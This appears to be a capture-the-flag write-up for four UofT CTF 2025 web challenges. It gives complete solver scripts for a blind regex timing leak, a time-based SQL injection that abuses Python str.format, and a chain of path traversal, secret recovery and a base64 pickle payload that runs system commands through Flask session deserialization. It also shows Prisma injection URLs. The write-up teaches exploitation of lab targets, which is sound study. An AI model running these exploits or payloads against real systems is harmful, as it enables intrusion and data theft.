

UofT CTF 2025 hosted by University of Toronto was a blast. I played with my team PwnSec and we ranked 33 despite missing out three categories.

As usual, I focused on web; so let's get started 😉

## CodeDB

A pretty cool website that allows you to search a database of files like GitHub.


It came with a list of vibrant code samples written in various languages:


Search operations are exposed through the `/search` endpoint and run on a Node.js [worker thread](https://nodejs.org/api/worker_threads.html)

```js
// index.js
app.post("/search", async (req, res) => {
  const query = req.body.query.trim();
  const language = req.body.language;
  let searchRegex = null;
  let searchTerm = "";

  if (query.startsWith("/") && query.endsWith("/")) {
    const regexPattern = query.slice(1, -1);
    try {
      searchRegex = new RegExp(regexPattern, "g");
    } catch (e) {
      return res.status(400).json({ error: "Invalid Regular Expression" });
    }
  } else {
    searchTerm = query.toLowerCase();
  }

  const workerData = {
    filesIndex,
    language,
    searchRegex,
    searchTerm,
    PREVIEW_LENGTH,
  };

  try {
    const { results } = await runSearchWorker(workerData, 1000);
    res.json({ results });
  } catch (error) {
    console.error(chalk.red(error.message));
    res.status(500).json({ error: error.message });
  }
});
```

The worker thread:

```js
// index.js
function runSearchWorker(workerData, timeout = 5000) {
  return new Promise((resolvePromise, rejectPromise) => {
    const worker = new Worker(resolve(__dirname, "searchWorker.js"), {
      workerData,
    });

    worker.on("message", resolvePromise);
    worker.on("error", rejectPromise);
    worker.on("exit", (code) => {
      if (code !== 0) resolvePromise({ results: [] });
    });

    const timer = setTimeout(() => {
      worker.terminate().then(() => {
        resolvePromise({ results: [] });
      });
    }, timeout);

    worker.on("message", () => clearTimeout(timer));
    worker.on("error", () => clearTimeout(timer));
    worker.on("exit", () => clearTimeout(timer));
  });
}
```

Notice how we do have full RegEx search capabilities, pretty cool!


We have three locations where file visibility is checked.

First in `app.js`:

```js
app.get("/view/:fileName", (req, res) => {
  const fileName = req.params.fileName;
  const fileData = filesIndex[fileName];

  if (!fileData?.visible) {
    return res.status(404).send("File not found or inaccessible.");
  }

  fs.readFile(fileData.path, "utf-8", (err, data) => {
    if (err) {
      console.error(chalk.red(err));
      return res.status(500).send("Server Error");
    }
    res.render("view_code", { fileName, code: data });
  });
});
```

And twice is `searchWorker.js`, where it is first set and removed from results before handing them over through `parentPort`.

```js
--- snip ---
const preview = generatePreview(content, matchIndices, PREVIEW_LENGTH);
    return preview
      ? {
          fileName,
          preview,
          language: fileData.language,
          visible: fileData.visible,
        }
      : null;
  })
  .filter((result) => result !== null && result.visible);

parentPort.postMessage({ results });
```

Doing `npm audit` we notice that it's vulnerable to Regular Expression Denial of Service (ReDoS). A rather theoretical timing attack that can be used to leak information under certain conditions - as well as getting abuse for DoS.

So I wrote this lovely script with binary search:

```python
import requests
from multiprocessing.pool import ThreadPool

url = 'http://localhost:3000'
url = 'http://34.162.172.123:3000'

TIMEOUT = 1 + 0.3

def leak_flag_length():
    left, right = 0, 64,
    while left <= right:
        idx = (left + right) // 2
        data = {"query": f"/^(?=uoftctf.{{{{{idx},}}}})((.*)*)*donotexist/","language":"All"}

        r = requests.post(f'{url}/search', json=data)
        elapsed = r.elapsed.total_seconds()

        if elapsed > TIMEOUT:
            left = idx + 1
        else:
            right = idx - 1

        print('.', end='', flush=True)
    print()

    return right

def leak_char(i):
    left, right = 32, 127
    while left <= right:
        idx = (left + right) // 2
        data = {"query": f"/^(?=uoftctf{{{'.'*i}[{chr(idx)}-\x7e]{{1}}.*}})((.*)*)*donotexist/","language":"All"}

        r = requests.post(f'{url}/search', json=data)
        elapsed = r.elapsed.total_seconds()

        if elapsed > TIMEOUT:
            left = idx + 1
        else:
            right = idx - 1

    return chr(right)

def leak_flag_parallel(length):
    flag = ''
    pool = ThreadPool(20)
    flag_list = pool.map(leak_char, range(length))

    return ''.join(flag_list)

flag_length = leak_flag_length()
print('[+] length leaked:', flag_length)

flag = leak_flag_parallel(flag_length)
print(f'uoftctf{{{flag}}}')
```

`uoftctf{why_15_my_4pp_l4661n6_50_b4dly??} `

**References:**

1. https://portswigger.net/daily-swig/blind-regex-injection-theoretical-exploit-offers-new-way-to-force-web-apps-to-spill-secrets
2. https://diary.shift-js.info/blind-regular-expression-injection/

## Prepared 1

We have a custom prepared statement generator called **QueryBuilder**:

```python
class DirtyString:
    MALICIOUS_CHARS = ['"', "'", "\\", "/", "*", "+" "%", "-", ";", "#", "(", ")", " ", ","]

    def __init__(self, value, key):
        self.value = value
        self.key = key

    def __repr__(self):
        return self.get_value()

    def check_malicious(self):
        if not all(32 <= ord(c) <= 126 for c in self.value):
            raise NonPrintableCharacterError(f"Non-printable ASCII character found in '{self.key}'.")
        for char in self.value:
            if char in self.MALICIOUS_CHARS:
                raise MaliciousCharacterError(f"Malicious character '{char}' found in '{self.key}'")

    def get_value(self):
        self.check_malicious()
        return self.value

class QueryBuilder:
    def __init__(self, query_template, dirty_strings):
        self.query_template = query_template
        self.dirty_strings = {ds.key: ds for ds in dirty_strings}
        self.placeholders = self.get_all_placeholders(self.query_template)

    def get_all_placeholders(self, query_template=None):
        pattern = re.compile(r'\{(\w+)\}')
        return pattern.findall(query_template)

    def build_query(self):
        query = self.query_template
        print('query:', query, flush=True)
        self.placeholders = self.get_all_placeholders(query)
        print('placeholders:', self.placeholders, flush=True)

        while self.placeholders:
            key = self.placeholders[0]
            format_map = dict.fromkeys(self.placeholders, lambda _, k: f"{{{k}}}")
            print('format_map:', format_map, flush=True)

            for k in self.placeholders:
                if k in self.dirty_strings:
                    if key == k:
                        format_map[k] = self.dirty_strings[k].get_value()
                else:
                    format_map[k] = DirtyString

            query = query.format_map(type('FormatDict', (), {
                '__getitem__': lambda _, k: format_map[k] if isinstance(format_map[k], str) else format_map[k]("",k)
            })())

            self.placeholders = self.get_all_placeholders(query)

        return query
```

Queries are prepared using this query builder before getting sent to the database:

```python
 try:
	du = DirtyString(username, 'username')
	dp = DirtyString(password, 'password')

	qb = QueryBuilder(
		"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'",
		[du, dp]
	)
	sanitized_query = qb.build_query()
	print(f"Sanitized query: {sanitized_query}")
except (MaliciousCharacterError, NonPrintableCharacterError) as e:
	flash(str(e), 'error')
	return redirect(url_for('login'))
except Exception as e:
	flash(f"Invalid credentials because of error. {e}", 'error')
	return redirect(url_for('login'))
```

I think we have to abuse the recursive, sequential nature of the placeholder logic. Using `username = {password!a}` and `password`

```
Database query failed: 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'as'' AND password = 'as'' at line 1
```

We need to find different gadgets to produce what we need, ideally any ASCII character. We can abuse format and do `username = {password.__class__}` and we get: `Sanitized query: SELECT * FROM users WHERE username = '<class 'str'>' AND password = 'a'`

Let's further understand what `str.format_map` does:

```python
# returns 2
 'aa {d}'.format_map(type('FormatDict', (), {'__getitem__': lambda self,k: 2 })())
'aa 2'
# so pretty much its a function that provides custom functionality on how a key is "mapped" into a value..

```

The function in the code is:

```python
'__getitem__': lambda _, k: format_map[k] if isinstance(format_map[k], str) else format_map[k]("",k)
```

1. If `k` is a string in our `format_map` (That's the dictionary, different from `str.format_map` method), it's sent as is...
2. If `k` is something else, presumably `DirtyString`, then we call `format_map[k]` with two arguments `""` and `k`. In the presumed case, that would lead to creating a `DirtyString` instance whose value is `""`.

I see this as a function call gadget, if we can reach an important object or function, we can call it this way... I daresay we can achieve a call chain.

```python
username={password!a:<10}&password=abc
SELECT * FROM users WHERE username = ''abc'     ' AND password = 'abc'

username={password!a:>10}&password=abc
SELECT * FROM users WHERE username = '     'abc'' AND password = 'abc'
```

Using something like:

```sql
username={password!a}or{password!a:>5}1=1{password!a:>5}or{password!a}&password=or
-- we generate this SQL, apparently any +ve number works too with =
SELECT * FROM users WHERE username = ''or'or 'or'1=1 'or'or'or'' AND password = 'or'
```

We get _Login successful_.

We can easily grab strings from any valid python string, like `''.__doc__` for example! Writing a little custom encoder and a blind injector gives us the flag:

```python
import requests
from string import ascii_lowercase, digits
from multiprocessing.pool import ThreadPool

url = 'http://localhost:5000'
url = 'https://prepared-1-108949fb3d34a1a2.chal.uoftctf.org'

chars = ascii_lowercase + digits + '{}'
docs = ''.__doc__
docstr = "{password.__doc__[%d]}"

def encode(payload):
    encoded = ''
    for c in payload:
        if c not in chars:
            encoded += docstr % docs.index(c)
        elif c in ['{', '}']:
            encoded += c * 2
        else:
            encoded += c
    return encoded

for i in range(52, 53):
    payload = "' union select flag,sleep(1),null from flags where length(flag)=%d-- " % i
    r = requests.post(f'{url}', data=dict(username=encode(payload), password='1'))
    print(r.elapsed.total_seconds())

    if r.elapsed.total_seconds() > 1.5:
        length = i
        break


print('flag length:', length)

def leak_pos(i):
    for c in chars + '_-{}!?':
        payload = "' union select flag,sleep(1),null from flags where substring(flag, %d, 1)='%c'-- " % (i, c)
        r = requests.post(f'{url}', data=dict(username=encode(payload), password='1'))

        if r.elapsed.total_seconds() > 1.5:
            print(c, end=' ', flush=True)
            return c

flag = 'uoftctf{'
flag += ''.join(ThreadPool(8).map(leak_pos, range(9, length+1)))
print(flag)
```

Running our script:

```sh
1.848684
flag length: 52
c m m b r 0 3 1 7 _ 3 3 r _ 0 r 3 _ c u 7 5 u y r 5 3 q _ 1 0 l m n _ 0 _ f _ 7 r 4 5 }
uoftctf{r3m3mb3r_70_c173_y0ur_50urc35_1n_5ql_f0rm47}
```

`uoftctf{r3m3mb3r_70_c173_y0ur_50urc35_1n_5ql_f0rm47}`

**References:**

- https://lucumr.pocoo.org/2016/12/29/careful-with-str-format/

## Timeless

A blog website where you can add new posts, upload a profile picture and write your bio. Posts can be public or not public. An RCE is required.


I immediately recognize an unsafe path concatenation with user-controlled input in the upload functionality, I think this is integral to the challenge.

```python
# helpers.py
ALLOWED_EXTENSIONS = {'png', 'jpeg', 'jpg'}
def allowed_username(username):
    return ".." not in username
def allowed_file(filename):
    return not ("." in filename and (filename.rsplit('.', 1)[1].lower() not in ALLOWED_EXTENSIONS or ".." in filename))

def gen_filename(username, filename, timestamp=None):
    if not timestamp:
        timestamp = int(datetime.now().timestamp())
    hash_value = hashlib.md5(f"{username}_{filename}_{timestamp}".encode()).hexdigest()
    return hash_value

def ensure_upload_directory(base_path, username):
    if not allowed_username(username):
        return None
    user_directory = os.path.join(base_path, username)
    if os.path.exists(user_directory):
        return user_directory
    os.makedirs(user_directory, exist_ok=True)
    return user_directory
```

Even though we can't have `..` or `.` in the filename, by creating a username of `/tmp/passwd`, we get an arbitrary file write:

```
$ ls /tmp/passwd
3f33712d6754403bb475ca9eb8a0e40d.jpg
```

We identify a `/status` endpoint allowing us to get the time:

```sh
{"status":"ok","server_time":"2025-01-12 12:10:12.694911","uptime":"10:38:26.305844"}
```

In `config.py`, we have predictable secrets:

```python
from datetime import datetime
import os
import random
import uuid
class Config:
    JSON_SORT_KEYS = False
    START_TIME = datetime.now()
    random.seed(int(START_TIME.timestamp()))
    SECRET_KEY = str(uuid.uuid1(clock_seq=random.getrandbits(14)))
    SESSION_USE_SIGNER = True
    TEMPLATES_AUTO_RELOAD = False
    SESSION_PERMANENT = True
    SESSION_TYPE = 'filesystem'
    SQLALCHEMY_DATABASE_URI = f"sqlite:///{os.path.join(os.getcwd(), 'db', 'app.db')}"
    SQLALCHEMY_TRACK_MODIFICATIONS = False
    UPLOAD_FOLDER = os.path.join(os.getcwd(), 'uploads')
```

Still... How does that lead to an RCE? Do we need an RCE?

1. No `TEMPLATES_AUTO_RELOAD`, we can't overwrite a template for easy RCE
2. Sessions are permanent though, and they reside on the filesystem.
3. We cannot upload a file with extension, we don't need to though, we will just overwrite a session with deserialization ;)
4. We find explanation for these constants here, notice that tokens are serialized using a weird function: https://flask-session.readthedocs.io/en/latest/config.html#SESSION_SERIALIZATION_FORMAT

We will look at these later, lets review the `allowed_file` logic:

```python
def allowed_file(filename):
    return not ("." in filename and (filename.rsplit('.', 1)[1].lower() not in ALLOWED_EXTENSIONS or ".." in filename))
```

Translates to:

```python
file_is_allowed = not (contains_dot and (extension_is_not_allowed or contains_two_dots))
# flip it
file_is_allowed = does_not_contain_dot or (extension_is_allowed and does_not_contain_two_dots)
```

There could be a differential between how the file is checked here, and the actual file saved:

```sh
ext = os.path.splitext(file.filename)[1].lower()
save_filename = f"{gen_filename(file.filename, user.username)}{ext}"
```

To generate a similar `uuidv1` secret, we need the server's MAC address, we need an arbitrary file read, looking around:

```python
@app.route('/profile_picture', methods=['GET'])
def profile_picture():
    username = request.args.get('username')
    user = User.query.filter_by(username=username).first()
    if user is None:
        return "User not found", 404
    if user.profile_photo is None:
        return send_file(os.path.join(app.static_folder, 'default.png'))
    file_path = os.path.join(app.config['UPLOAD_FOLDER'], user.username + user.profile_photo)
    if not os.path.exists(file_path):
        return send_file(os.path.join(app.static_folder, 'default.png'))
    return send_file(file_path)
```

Notice the file save logic, below which allows us to configure the path even if file save fails by incorrectly commiting the results in the `finally` clause:

```python
if not os.path.exists(filepath):
	try:
		user.profile_photo = "/"+save_filename
		file.save(filepath)
	except:
		user.profile_photo = ''
		flash('Failed to save file', 'error')
		return redirect(url_for('profile_get'))
	finally:
		db.session.commit()
else:
	flash('File already exists', 'error')
	return redirect(url_for('profile_get'))
```

We have full control over the username, as well as the profile photo name as long as it does not have an extension. We can easily upload any file by controlling the username, profile picture does not matter/should trigger an error. Eventually, we get it right and we exfiltrate the MAC address from `/sys/network`

On `flask-session`'s website, we find the following notice (Our app uses Flask-Session `0.8.0`):


Having the secret key, and file upload in hand, and knowing about the pickle deserialization vulnerability, we want to take this further. However, how do we identify the stored session identifier which stores our session?

In `flask-session` docs:

```
class flask_session.filesystem.FileSystemSessionInterface(app: Flask, key_prefix: str = 'session:', use_signer: bool = False, permanent: bool = True, sid_length: int = 32, serialization_format: str = 'msgpack', cache_dir: str = '/home/docs/checkouts/readthedocs.org/user_builds/flask-session/checkouts/latest/docs/flask_session', threshold: int = 500, mode: int = 384)

Uses the cachelib.file.FileSystemCache as a session storage.

Parameters:
        key_prefix – A prefix that is added to storage keys.
        use_signer – Whether to sign the session id cookie or not.
        permanent – Whether to use permanent session or not.
        sid_length – The length of the generated session id in bytes.
        serialization_format – The serialization format to use for the session data.
        cache_dir – the directory where session files are stored.
        threshold – the maximum number of items the session stores before it
        mode – the file mode wanted for the session files, default 0600
```

`flask-session`'s filesystem storage uses `FileSystemCache` from `cachelib`.

- Flask Session's `FileSystemSessionInterface`: https://github.com/pallets-eco/flask-session/blob/bc2fe67958bff5e46023c4807b5e75ca350554eb/src/flask_session/filesystem/filesystem.py#L17
- Cachelib's `FileSystemCache` (Indeed using pickle internally): https://github.com/pallets-eco/cachelib/blob/9a4de4df1bce035d27c93a34608a8af4413d5b59/src/cachelib/file.py#L218C5-L233C20

```python
def get(self, key: str) -> _t.Any:
	filename = self._get_filename(key)
	try:
		with self._safe_stream_open(filename, "rb") as f:
			pickle_time = struct.unpack("I", f.read(4))[0]
			if pickle_time == 0 or pickle_time >= time():
				return self.serializer.load(f)
	except FileNotFoundError:
		pass
	except (OSError, EOFError, struct.error):
		logging.warning(
			"Exception raised while handling cache file '%s'",
			filename,
			exc_info=True,
		)
	return None
```

Grabbing remote's secret key:

```sh
[+] Logged in
[*] Grabbing status
[*] Grabbing MAC address via path traversal in profile photo
4e:0b:60:30:b2:e7

[+] Exfiltrated MAC address: 4e0b6030b2e7
[*] Computing server start, seed and UUIDv1 secret...
[+] Secret found:
        Server start time: 2025-01-12 17:28:16.846919+00:00
        Server seed: 1736702896
        Server secret: 9bf972c0-d10a-11ef-ada0-4e0b6030b2e7
```

This is how sessions are saved in flask session by calling `_upsert_session`:

- https://github.com/pallets-eco/flask-session/blob/bc2fe67958bff5e46023c4807b5e75ca350554eb/src/flask_session/filesystem/filesystem.py#L96

Which in turn calls `cachelib`'s `set`.

To get the filename from session ID, we do use the following where the session ID is the prefix before the `.` in the signed flask-session token:

```sh
hashlib.md5(b'session:'+b'q1ExS6FzHdu758o94mt8Bwwh-oYErnqMsjLydCzH9U0').hexdigest()
```

After sometime spent on this challenge, I realized that the author, _intentionally_, swapped argument order between function definition and function call which left me wondering why is my md5 "not working". Notice:

```python
save_filename = f"{gen_filename(file.filename, user.username)}{ext}"
```

vs:

```python
def gen_filename(username, filename, timestamp=None):
    if not timestamp:
        timestamp = int(datetime.now().timestamp())
    hash_value = hashlib.md5(f"{username}_{filename}_{timestamp}".encode()).hexdigest()
    return hash_value
```

I only noticed the discrepancy after plastering the source code with prints.

Anyways below is my complete solver.

**My Solver**

```python
import requests , random, datetime, hashlib
from requests.exceptions import ChunkedEncodingError
from myuuid import uuid1
from itertools import product
from multiprocessing.pool import ThreadPool
from itsdangerous import Signer, BadSignature
from base64 import b64decode, urlsafe_b64encode

url = 'http://localhost:3000'

def get_server_start_time(status):
    server_time = datetime.datetime.strptime(status['server_time'], "%Y-%m-%d %H:%M:%S.%f")
    server_time = server_time.replace(tzinfo=datetime.timezone.utc)

    uptime_str = status['uptime']
    h, m, s = uptime_str.split(':')
    h = int(h)
    m = int(m)
    s = float(s)

    uptime_delta = datetime.timedelta(hours=h, minutes=m, seconds=s)
    return server_time - uptime_delta

if __name__ == '__main__':
    s = requests.Session()

    password = 'password'
    username = '/sys/class/net/eth0/address'
    s.post(f'{url}/register', data=dict(username=username, password=password))
    s.post(f'{url}/login', data=dict(username=username, password=password))

    r = s.get(f'{url}/profile')

    if 'Write something' not in r.text:
        raise Exception("Login failed.")

    print('[+] Logged in')

    print('[*] Grabbing status')
    status = s.get(f'{url}/status').json()

    print('[*] Grabbing MAC address via path traversal in profile photo')
    r = s.post(f'{url}/profile', files=dict(profile_photo=('address', '')))
    assert r.status_code == 200

    received_bytes = 0
    file_contents = b''
    r = s.get(f'{url}/profile_picture', params=dict(username=username), stream=True)
    # flask send_file from /sys filesystem behaves weirdly returning 4096 content-length regardless
    try:
        for chunk in r.iter_content(chunk_size=18):
            if not chunk: break
            file_contents += chunk
            received_bytes += len(chunk)
    except ChunkedEncodingError:
        ...
    finally:
        print(file_contents.decode())
    assert received_bytes == 18, 'Invalid MAC address received.'

    mac_address = int(file_contents.decode().strip().replace(':', ''), 16)
    print(f'[+] Exfiltrated MAC address: {mac_address:012x}')

    print('[*] Computing server start, seed and UUIDv1 secret...')
    server_stime = get_server_start_time(status)
    server_ts = server_stime.timestamp()
    server_seed = int(server_ts)
    random.seed(server_seed)

    rand_bits = random.getrandbits(14)
    server_secret = uuid1(ns=int(server_ts * 10**9), clock_seq=rand_bits, node=mac_address)
    server_secret = str(server_secret)

    print('[+] Secret found:')
    print("\tServer uptime:", status['uptime'])
    print("\tServer start time:", server_stime)
    print('\tServer seed:', server_seed)
    print("\tCalculated server secret:", server_secret)

    signed_sid = s.cookies.get('session')

    print("\n[*] Cracking server secret (4 bytes)...")

    def unsign(missing):
        key = server_secret[:4] + ''.join(missing) + server_secret[8:]
        assert len(key) == 36
        sid = None
        try:
            signer = Signer(secret_key=key, salt="flask-session", key_derivation="hmac")
            sid = signer.unsign(signed_sid)
        except BadSignature as e:
            ...
        if sid:
            return key, sid
        else:
            return None

    p = ThreadPool(8)
    for res in p.map(unsign, product('0123456789abcdef', repeat=4)):
        if res:
            print('\tActual server secret:', real_secret := res[0])
            print('\tSID:', (sid := res[1]).decode())
            break

    assert isinstance(sid, bytes)

    # send poisoned payload
    poison = 'gASVPAAAAAAAAACMAm50lIwGc3lzdGVtlJOUjCQvcmVhZGZsYWcgPiAvYXBwL2FwcC9zdGF0aWMvZmxhZy50eHSUhZRSlC4='
    username = '/app/flask_session'
    filename = "session:"

    print('\n[*] Current session cookie:', signed_sid)

    s.post(f'{url}/register', data=dict(username=username, password=password))
    r = s.post(f'{url}/login', data=dict(username=username, password=password))

    status = s.get(f'{url}/status').json()
    timestamp = datetime.datetime.strptime(status['server_time'], "%Y-%m-%d %H:%M:%S.%f")
    timestamp = int(timestamp.replace(tzinfo=datetime.timezone.utc).timestamp())
    print('\n[*] Estimated timestamp:', timestamp)
    r = s.post(f'{url}/profile', files=dict(profile_photo=(filename, b64decode(poison))))
    assert r.status_code == 200, 'Could not upload poisoned payload.'

    hash_value = hashlib.md5(f"{filename}_{username}_{timestamp}".encode()).hexdigest()
    print('[*] Uploaded file hash should be:', hash_value)

    # stored filename = md5("session:" + sid)
    # cookie = hmac(sid)
    # we need to find an sid that gives us md5 to the file we just uploaded
    cookie = f'_{username}_{timestamp}'
    print('\n[*] Payload session ID:', cookie)

    signer = Signer(secret_key=real_secret, salt="flask-session", key_derivation="hmac")
    signed_cookie = signer.sign(cookie)

    print('[*] Signed cookie:', signed_cookie.decode())

    print(hash_value)
    print(hashlib.md5(b'session:'+cookie.encode()).hexdigest())

    r = requests.get(f'{url}/profile', cookies=dict(session=signed_cookie.decode()))
    print(r, r.request.headers['cookie'])
    print('[+] Gratz! payload shouldve ran')
```

Producing output like this:

```sh
python solve.py
[+] Logged in
[*] Grabbing status
[+] Logged in
[*] Grabbing status
[*] Grabbing MAC address via path traversal in profile photo
02:42:ac:11:00:02


[+] Exfiltrated MAC address: 0242ac110002
[+] Exfiltrated MAC address: 0242ac110002
[*] Computing server start, seed and UUIDv1 secret...
[*] Computing server start, seed and UUIDv1 secret...
[+] Secret found:
        Server uptime: 0:46:33.578068
        Server start time: 2025-01-13 00:25:19.411991+00:00
        Server seed: 1736727919
        Calculated server secret: de95dee3-d144-11ef-85f2-0242ac110002

[*] Cracking server secret (4 bytes)...
        Actual server secret: de95e275-d144-11ef-85f2-0242ac110002
        SID: P3vNiBu1oU3rvUwhFtkLbwuTetURsoLiuNWRwxc28tY

[*] Current session cookie: P3vNiBu1oU3rvUwhFtkLbwuTetURsoLiuNWRwxc28tY.s1Br6TmVVS1Iep9-3pFsghNPTNg

[*] Estimated timestamp: 1736730714
[*] Uploaded file hash should be: 6d93117395cf4727eac8853fccb7c9d4

[*] Payload session ID: _/app/flask_session_1736730714
[*] Signed cookie: _/app/flask_session_1736730714.dgXm8Q7cnnlBlzwg6G_lYWHUbAg
6d93117395cf4727eac8853fccb7c9d4
6d93117395cf4727eac8853fccb7c9d4
<Response [200]> session=_/app/flask_session_1736730714.dgXm8Q7cnnlBlzwg6G_lYWHUbAg
[+] Gratz! payload shouldve ran
```

## Prismatic Blog

We know it's a Prisma injection, but how?

The flag is stored in a post with a random ID that does not belong to any user. We have an injection point in name.

```
npx prisma generate
npx prisma db push
```

We have two endpoints:

```js
app.get("/api/posts", async (req, res) => {
  try {
    let query = req.query;
    query.published = true;
    let posts = await prisma.post.findMany({ where: query });
    res.json({ success: true, posts });
  } catch (error) {
    res.json({ success: false, error });
  }
});

app.post("/api/login", async (req, res) => {
  try {
    let { name, password } = req.body;
    let user = await prisma.user.findUnique({
      where: {
        name: name,
      },
      include: {
        posts: true,
      },
    });
    if (user.password === password) {
      res.json({ success: true, posts: user.posts });
    } else {
      res.json({ success: false });
    }
  } catch (error) {
    res.json({ success: false, error });
  }
});
```

My teammate **@moha09** solved it using binary search with a payload similar to these:

```
/api/posts?author[name]=Bob&AND[0][author][password][lt]=8AXCgMish5Zn59rSXjM
/api/posts?author[name]=White&AND[0][author][password][lt]=3pCtWJfabwPlo6qNgGS1P4
```

## Conclusion

It was a great CTF with lots of learning. I could notice growth in my code review skills as auditing lots of code became more natural with less friction.

Generally, I felt less intimidated to jump into open-source dependencies or python's stdlib to get definitive answers on the behaviors of certain constructs.
